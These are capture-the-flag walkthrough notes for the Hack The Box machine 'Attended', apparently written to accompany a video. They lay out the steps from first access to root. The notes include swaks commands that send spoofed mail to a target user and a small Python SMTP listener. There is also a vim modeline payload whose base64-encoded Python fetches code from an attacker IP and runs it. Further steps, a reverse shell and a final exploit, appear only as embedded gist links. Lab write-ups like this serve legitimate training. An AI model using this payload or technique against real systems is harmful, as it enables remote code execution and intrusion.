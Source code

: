 ```yaml
---
description: 'Notes for https://youtu.be/uAvvrBO7zlk'
---
```


# Attended

## User

### Send mails via swaks

```bash
1) swaks --from 'root@attended.htb' --to 'guly@attended.htb' --header "Subject: Please subscribe" --body 'and click the like button' --server attended.htb
2) swaks --from 'freshness@attended.htb' --to 'guly@attended.htb' --header "Subject: Please subscribe" --body 'and click the like button' --server attended.htb
3) swaks --from 'freshness@attended.htb' --to 'guly@attended.htb' --header "Subject: Please subscribe" --body 'and click the like button' --server attended.htb --attach payload.txt
```

### Mail Server

```python
from __future__ import print_function
from datetime import datetime
import asyncore
from smtpd import SMTPServer

class EmlServer(SMTPServer):
    def process_message(self, peer, mailfrom, rcpttos, data, mail_options=None,rcpt_options=None):
        print(f"From: {mailfrom}")
        print(f"To: {rcpttos}")
        print("Data:")
        for line in data.split(b"\n"):
            print(line)

def run():
    EmlServer(('0.0.0.0', 25), None)
    try:
        asyncore.loop()
    except KeyboardInterrupt:
        pass

if __name__ == '__main__':
    run()
```

#### Payload.txt

This pulls a \(python-\) file called "x" from our webserver and executes it: 

```bash
:!echo aW1wb3J0IHJlcXVlc3RzIGFzIHI7ZXhlYyhyLmdldCgnaHR0cDovLzEwLjEwLjE0Ljc4L3gnKS50ZXh0KQ==| openssl base64 -d -A | python2.7 -
||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=1:fdt="
```

### HTTP Reverse Shell

{% embed url="https://gist.github.com/xct/4bfa24536d632f5ea06fd1f91ad8cdf4" %}

## Root

### Prepare OpenBSD VM

```bash
export PKG_PATH=https://mirror.fsrv.services/pub/OpenBSD/6.8/packages/amd64/
pkg_add -v gdb
pkg_add wget
pkg_add nano
pkg_add py3-pip
pkg_add git
wget -O ~/.gdbinit-gef.py -q https://github.com/hugsy/gef/raw/master/gef.py
echo source ~/.gdbinit-gef.py >> ~/.gdbinit
export LC_CTYPE=C.UTF-8
egdb
```

### EAX-Finder

{% embed url="https://gist.github.com/xct/40ba6491494e1dc4a41327b10d19ce75" %}

### Final Exploit

{% embed url="https://gist.github.com/xct/4b4dea85e9483eaa5aeaa9e80b71349e" %}



